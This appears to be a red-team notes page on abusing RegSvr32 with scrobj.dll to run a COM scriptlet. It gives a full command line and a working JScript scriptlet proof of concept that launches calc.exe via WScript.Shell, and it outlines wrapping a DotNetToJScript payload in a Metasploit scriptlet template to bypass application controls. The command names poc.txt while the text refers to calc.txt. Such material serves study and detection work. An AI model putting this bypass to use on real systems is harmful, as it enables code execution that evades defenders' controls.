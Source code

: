 # RegSvr32

## RegSvr32 usage

![](../../../../.gitbook/assets/6f992d1b71894d836c52d6c92773d7f5.png)

* Register/Unregister DLL and ActiveX control in windows Registry
* Include registering/unregistering COM scriptlet files

`c:\Windows\System32\RegSvr32.exe /s /n /u /i:C:\users\Homer_Potter\desktop\poc.txt scrobj.dll`

where calc.txt contains :

```text
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
    >
    <!-- Proof Of Concept - Casey Smith @subTee -->
    <script language="JScript">
        <![CDATA[
    
            var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
    
        ]]>
    </script>
</registration>
</scriptlet>
```

## Obfuscation using XLS files <a id="obfuscation-using-xls-files"></a>

{% embed url="http://18.216.220.144/2019/10/5mct-baselining-behavior-tradecraft.html" %}

![](../../../../.gitbook/assets/927e639438978c081aa25a0b08edca56.png)

TODO

If you're not familiar with DotNetToJScript, check out the GitHub Repo. Write a .NET assembly that opens up Internet Explorer, compile it, run it through DotNetToJScript and then put the resultant JScript into the metasploit COM scriptlet template. Execute the bypass and verify that IE opens up.

